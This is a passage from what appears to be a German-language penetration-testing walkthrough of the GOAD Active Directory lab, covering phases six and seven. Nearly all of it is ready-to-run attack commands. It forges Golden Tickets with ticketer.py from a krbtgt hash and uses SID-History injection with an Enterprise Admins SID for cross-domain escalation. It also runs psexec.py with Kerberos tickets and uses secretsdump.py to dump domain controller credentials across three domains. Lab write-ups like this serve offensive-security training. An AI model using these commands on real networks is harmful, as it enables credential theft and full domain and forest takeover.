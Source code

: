 #### Golden Ticket Generation
```bash
# Golden Ticket für North Domain erstellen
ticketer.py -nthash <krbtgt_nt_hash> -domain-sid <domain_sid_north> -domain north.sevenkingdoms.local -spn cifs/winterfell.north.sevenkingdoms.local administrator

# Ticket verwenden
export KRB5CCNAME=administrator.ccache
klist

# Domain Admin-Zugriff bestätigen
psexec.py -k -no-pass administrator@winterfell.north.sevenkingdoms.local
```

---

## Phase 7: Cross-Domain Exploitation

### 7.1 Trust Relationship Analysis

#### Trust Discovery
```powershell
# Via PowerShell auf kompromittiertem DC
PS> Get-ADTrust -Filter *
PS> nltest /trusted_domains
PS> Get-DomainTrust  # PowerView (falls verfügbar)
```

#### Cross-Domain Movement
```bash
# SID-History Injection (Parent-Child Trust)
# Falls north.sevenkingdoms.local → sevenkingdoms.local Trust existiert

ticketer.py -nthash <krbtgt_child_hash> -domain-sid <child_domain_sid> -extra-sid <enterprise_admins_sid> -domain north.sevenkingdoms.local administrator

# Cross-Domain Golden Ticket Test
export KRB5CCNAME=cross_domain_admin.ccache
psexec.py -k -no-pass administrator@kingslanding.sevenkingdoms.local
```

### 7.2 Complete Forest Compromise

#### Target: All Three Domains
```bash
# Domain 1: sevenkingdoms.local (KINGSLANDING)
secretsdump.py sevenkingdoms.local/administrator:password@192.168.20.10 -outputfile sevenkingdoms_secrets

# Domain 2: north.sevenkingdoms.local (WINTERFELL) - Already compromised
# [COMPLETED]

# Domain 3: essos.local (MEEREEN)
# Via compromised credentials or SMB Relay
secretsdump.py essos.local/administrator:password@192.168.20.12 -outputfile essos_secrets
```

---